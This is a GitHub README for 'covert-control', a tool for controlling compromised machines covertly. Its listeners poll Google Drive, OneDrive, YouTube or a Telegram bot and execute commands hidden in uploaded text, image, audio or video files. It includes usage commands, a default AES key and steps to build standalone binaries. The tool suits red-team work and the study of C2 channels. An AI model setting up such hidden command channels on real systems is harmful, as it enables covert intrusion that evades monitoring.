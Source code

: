 # covert-control

Control systems remotely by uploading files to Google Drive, OneDrive, Youtube or Telegram using Python to create the files and the listeners. It allows to create text files, images, audio or videos, with the commands in cleartext or encrypted using AES.


- covert-googledrive.py - Control systems uploading files to a public folder in Google Drive.

- covert-onedrive.py - Control systems uploading files to a public folder in OneDrive.

- covert-youtube.py - Control systems uploading videos to Youtube (updated from [covert-tube](https://github.com/ricardojoserf/covert-tube)).

- covert-telegram.py - Control systems with a Telegram bot.


### Create files to upload

You can find example files in the folder [test_files](https://github.com/ricardojoserf/covert-control/tree/reduced/test_files) or create new ones with generate_file.py:

```
python3 generate_file.py -t TYPE [-o OUTPUTFILE] [-c COMMAND] [-e]
```
- -t (--type) [Required]: Types of file: "text", "image", "audio" or "video".

- -o (--outputfile) [Optional]: Output file.

- -c (--command) [Optional]: Command to execute.

- -e (--encrypted) [Optional]: Add this flag to encrypt the command with AES.


Examples:

```
python3 generate_file.py -t text  -c "whoami" -o text.txt
python3 generate_file.py -t text  -c "whoami" -o text_encrypted.txt -e
python3 generate_file.py -t audio -c "whoami" -o audio.wav
python3 generate_file.py -t audio -c "whoami" -o audio_encrypted.wav -e
python3 generate_file.py -t image -c "whoami" -o image.png
python3 generate_file.py -t image -c "whoami" -o image_encrypted.png -e
python3 generate_file.py -t video -c "whoami" -o video.avi
python3 generate_file.py -t video -c "whoami" -o video_encrypted.avi -e
```


### Configuration

Common configuration values:

- **data_type** (Optional. Default: "text"):

	| data_type       | File type | Encrypted | Valid for                       | Extension |
	|---------------- |-----------|-----------|---------------------------------|-----------|
	| text            | Text file | No        | Google Drive, OneDrive          | .txt      |
	| text_encrypted  | Text file | Yes       | Google Drive, OneDrive          | .txt      |
	| image           | Image     | No        | Google Drive, OneDrive          | .png      |
	| image_encrypted | Image     | Yes       | Google Drive, OneDrive          | .png      |
	| audio           | Audio     | No        | Google Drive, OneDrive          | .wav      |
	| audio_encrypted | Audio     | Yes       | Google Drive, OneDrive          | .wav      |
	| video           | Video     | No        | Google Drive, OneDrive, Youtube | .avi      |
	| video_encrypted | Video     | Yes       | Google Drive, OneDrive, Youtube | .avi      |

- **delay_seconds** (Optional. Default: 300): Seconds between checks of new files uploaded to the Google Drive or OneDrive folder or new videos in the Youtube channel.

- **aes_key** (Optional. Default: "covert-control21"): Key for AES encryption.

- **debug** (Optional. Default: True): Print messages and timestamps in the listener or not.


Specific configuration values:

- **googledrive_folder**: Url of public Google Drive folder to monitor (for covert-googledrive.py).

- **onedrive_folder**: Url of public OneDrive folder to monitor (for covert-onedrive.py).

- **youtube_channel_id**: Youtube channel ID of the channel to monitor. You can get it from [here](https://www.youtube.com/account_advanced) (for covert-youtube.py).

- **youtube_api_key**: Get an API key creating an application and generating the key in [here](https://console.cloud.google.com/apis/credentials) (for covert-youtube.py).

- **telegram_token**: Bot token, create it using [BotFather](t.me/BotFather). Write "/newbot", then send a name for the bot (for example, "botname") and a username for the bot ending in "-bot" (for example, "somethingrandombot") (for covert-telegram.py).


--------------------------------------------------------------------------------------

# Google Drive

It allows to execute commands uploading text files, images, audio and videos, unencrypted or encrypted with AES. The optional input argument is the public folder url, which can be also configured in config.py:


```
python3 covert-googledrive.py [FOLDER_URL]
```

The listener will check the Google Drive folder every 300 seconds by default (can be updated in *config.py*). In this case a video, "video.avi", is uploaded with the command in the QR of the video:

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/covert-control/image1.png)

After finding there is a new file uploaded to the folder, it is downloaded, processed and the commands are executed:

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/covert-control/image2.png)


--------------------------------------------------------------------------------------

# Onedrive

It allows to execute commands uploading text files, images, audio and videos, unencrypted or encrypted with AES. The optional input argument is the public folder url, which can be also configured in config.py:


```
python3 covert-onedrive.py [FOLDER_URL]
```

The listener will check the OneDrive folder every 300 seconds by default (this can be updated in *config.py*). In this case an audio, "audio_encrypted.wav", is uploaded with the command encrypted with AES:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/covert-control/image3.png)

After finding there is a new file uploaded to the folder, it is downloaded, processed and the commands are executed:

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/covert-control/image4.png)


--------------------------------------------------------------------------------------

# Youtube

It allows to execute commands uploading videos, unencrypted or encrypted with AES. The optional input arguments are the Youtube channel ID to monitor and the API key, which can be also configured in config.py:

```
python3 covert-youtube.py [CHANNEL_ID] [API_KEY]
```

The listener will check the Youtube channel every 300 seconds by default (this can be updated in *config.py*). First the video is uploaded:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/covert-control/image5.png)

After finding there is [a new video in the channel](https://www.youtube.com/watch?v=4hk2g41HyWI), it is downloaded, processed and the commands are executed:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/covert-control/image6.png)


--------------------------------------------------------------------------------------

# Telegram

Control systems remotely with a Telegram bot. This option does not allow to upload files, but it is possible to send the commands in cleartext ("/cmd") or encrypted with AES ("/encrypted"). The optional input argument is the bot token, which can be also configured in config.py:

```
python3 covert-telegram.py [BOT_TOKEN]
```

The listener will check the commands in the chat and show the output:

```
/cmd CLEARTEXT_COMMAND
/encrypted AES_ENCRYPTED_COMMAND
```

![img7](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/covert-control/image7.png)


--------------------------------------------------------------------------------------

# Installation

```
sudo apt install libzbar0
pip install bs4 Pillow opencv-python pyqrcode pypng pyzbar pycrypto youtube_dl pytesseract python-telegram-bot requests argparse
git clone https://github.com/ricardojoserf/covert-control && cd covert-control/
```

### Creating standalone binaries

```
pyinstaller --onefile covert-googledrive.py
pyinstaller --onefile covert-onedrive.py
pyinstaller --onefile covert-telegram.py
pyinstaller --onefile covert-youtube.py
rm -rf build
rm *spec
ls dist/
```

